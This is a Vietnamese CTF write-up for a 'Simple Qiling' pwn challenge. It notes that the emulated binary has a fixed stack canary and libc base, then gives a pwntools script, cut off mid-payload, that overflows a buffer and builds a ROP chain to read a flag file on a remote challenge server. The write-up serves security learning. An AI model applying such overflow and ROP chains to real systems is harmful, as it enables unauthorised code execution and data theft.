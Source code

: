
# Simple Qiling 

Dựa vào link này để có thể có môi trường chạy binary : !link<https://docs.qiling.io/en/latest/install/>

Đòng thời mình dựa vào bài WU này để biết được một số thông tin quan trọng để có thể solve challenge , https://ptr-yudai.hatenablog.com/entry/2023/07/22/184044#qjail .

Mình đã compile một file binary tĩnh sau đó chạy nó để test thử , thì mình có thể thấy canary luôn là 0x6161616161616100 :

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/288af95b-657c-4017-bd4b-69aef5dd0377)

Sau đó mình cũng biết được rằng địa chỉ libc cũng sẽ luôn cố định : 

Đây là ảnh memory của chuiowng trình khi mà nó crash , chạy nó 1,2 lần thì thấy địa chỉ này không bao giờ thay đổi :

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/fbae9826-f1aa-42b1-b96d-d320160f277d)

exploit :

```python
#!/usr/bin/env python3
from pwn import *

libc = ELF('./libc-2.31.so',checksec=False)
context.binary = exe = ELF('./simpleqiling',checksec=False)

def GDB():
    gdb.attach(p,gdbscript = '''
    c
    ''')
    input()
# p = process(["python3", "qi.py", "simpleqiling"])
p = remote("103.163.24.78",10010)
exe.address  =  0x555555554000
libc.address =  0x7fffb7dd6000

RDI = libc.address + 0x0000000000023b6a
RSI = libc.address + 0x000000000002601f
RDX = libc.address + 0x0000000000142c92
ret = libc.address + 0x0000000000022679
xchg = libc.address + 0x00000000000f1b65
RAX = libc.address + 0x0000000000036174
syscall = libc.address + 0x00000000000630a9
RSP = libc.address + 0x000000000002f70a
payload = flat(
    b"a"*0x28,
    0x6161616161616100,
    0x00000555555558500,
    RDI,0x000005555555585a0,
    libc.sym['gets'],
    RDI,0x000005555555585a0,
    libc.sym['puts'],
    RSP,0x000005555555585a0 + 0x10 + 0x100,
)
# GDB()
p.sendline(payload)
payload = flat(
    b"./flag.txt",b"\x00"*6,
    b"a"*0x100,
    RDI,0x000005555555585a0,
    RSI,0,RDX,0,
```